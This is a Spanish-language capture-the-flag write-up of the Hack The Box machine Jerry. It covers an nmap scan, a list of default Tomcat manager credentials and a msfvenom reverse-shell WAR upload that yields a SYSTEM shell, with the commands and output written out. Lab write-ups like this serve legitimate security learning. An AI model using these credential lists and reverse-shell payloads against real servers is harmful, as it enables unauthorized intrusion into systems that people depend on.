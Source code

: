 ```yaml
---
layout: single
title: HTB-Jerry
excerpt: "WriteUp de la máquina HTB Jerry - Type: Easy"
date: 2022-04-05
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/jerry/jerry.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/writeups/jerry/jerry.png"></centre>

[Maquina](https://app.hackthebox.com/machines/Jerry) 


## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.95 
```

```bash
Nmap scan report for 10.10.10.95
Host is up (0.041s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
```

Al mirar el resultado del nmap, vemos que el puerto **8080** tiene un http abierto con **Apache Tomcat** al cual accederemos a el.

<centre><img src="/assets/images/writeups/jerry/panel1.png"></centre>

Nos encontramos un panel de tomcat dónde en la parte de la derecha tenemos un link a la **managment app** la cual podemos clickar y ver que pasa.

<centre><img src="/assets/images/writeups/jerry/panel2.png"></centre>

Nos encontramos un panel de login en el cual podemos intentar iniciar sesion con las credenciales por defecto de este software.

```txt
Username:assword

admin:password
admin:
admin:Password1
admin:password1
admin:admin
admin:tomcat
both:tomcat
manager:manager
role1:role1
role1:tomcat
role:changethis
root:Password1
root:changethis
root:password
root:password1
root:r00t
root:root
root:toor
tomcat:tomcat
tomcat:s3cret
tomcat:password1
tomcat:password
tomcat:
tomcat:admin
tomcat:changethis
```

Vemos que las credenciales correctas son **tomcat:s3cret**.

<centre><img src="/assets/images/writeups/jerry/panel3.png"></centre>

En el caso de que salirte del panel de credenciales nos sale una página de error con las credenciales correctas.

<centre><img src="/assets/images/writeups/jerry/panel4.png"></centre>

Ahora, tenemos un control panel donde podemos subir archivos **.war**


## Explotación

Procedemos a la creacion de un archivo **.war** con **msfvenom** para devolvernos una reverseshell a nuestra máquina desde la víctima para poder controlarla.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f war -o reverse.war
```

Lo subimos a la web y le damos a deploy.

<centre><img src="/assets/images/writeups/jerry/panel5.png"></centre>

Nos ponemos en escucha con netcat y ejecutamos el war desde la **url**

```bash
nc -lvp 443 #netcat

http://10.10.10.95:8080/reverse #url
```

Obtenemos la reverseshell:

```txt
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

Comprobamos que usuario somos:

```powershell
C:\apache-tomcat-7.0.88>whoami
        whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

Flag de los **Usuarios**:
```powershell
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,703,808 bytes free

C:\Users\Administrator\Desktop\flags>
```